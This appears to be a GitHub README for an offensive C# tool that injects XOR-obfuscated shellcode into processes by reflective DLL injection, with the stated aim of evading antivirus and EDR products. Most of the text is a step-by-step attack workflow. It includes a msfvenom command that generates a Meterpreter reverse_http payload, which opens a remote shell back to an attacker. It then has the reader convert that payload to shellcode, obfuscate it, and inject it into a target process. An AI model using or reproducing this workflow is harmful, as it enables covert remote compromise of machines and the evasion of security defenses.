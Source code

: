 # XORed Reflective DLL Injection

This tool written in C# with the purpose to perform Reflective DLL Injection with obfuscated (XOR) shellcode and bypass some Anti-Virus signatures and EDRs.

The tool consists the following projects:

* Xoring - Takes a key and then xoring the shellcode.
* XORedReflectiveDLL - Process Injection Loader for the obfuscated shellcode.

### Usage

	1) Generate DLL using msfvenom. (Feel free to use any tool you want to generate DLL. e.g: cobalt strike or write your custom DLL)
		msfvenom -p windows/meterpreter/reverse_http exitfunc=thread LHOST=<> LPORT=<> -b "\x00" -f dll > reverse_http.dll
	2) Use [sRDI](https://github.com/monoxgas/sRDI) to convert DLL to position independent shellcode.
		python3.6 ConvertToShellcode.py reverse_http.dll
	3) Execute the below command to convert .bin file to a compatible C# byte array format:
		hexdump -v -e '1/1 "0x%02x,"' reverse_http.bin | sed 's/.$//' > reverse_http_bytearray.txt
	4) Copy the byte array shellcode from the reverse_http_bytearray.txt and paste it in the Xoring.cs file at line 29. Make sure to paste it inside the curly brackets.
	5) Change the XOR key at line 26.
	6) Build solution and run the Xoring.exe to obfuscate the shellcode.
	7) Open the file created (It should be similar to: xored_shellcode_*current date*.txt), copy the byte array and paste it in the Reflective.cs file at line 150.
	8) Change the XOR key. (Make sure that the key is the same with the one that you used in Xoring.cs file before.)
	9) Change target process. e.g: notepad, iexplore, etc..etc..
	10) Build the program and run XORedReflectiveDLL.exe

### Credits

Credits goes to [monoxgas](https://github.com/monoxgas/sRDI) for the sDRI tool that convert DLLs to position independent shellcode.
(Stephen Fewer)[https://github.com/stephenfewer/ReflectiveDLLInjection] for the Reflective DLL injection technique.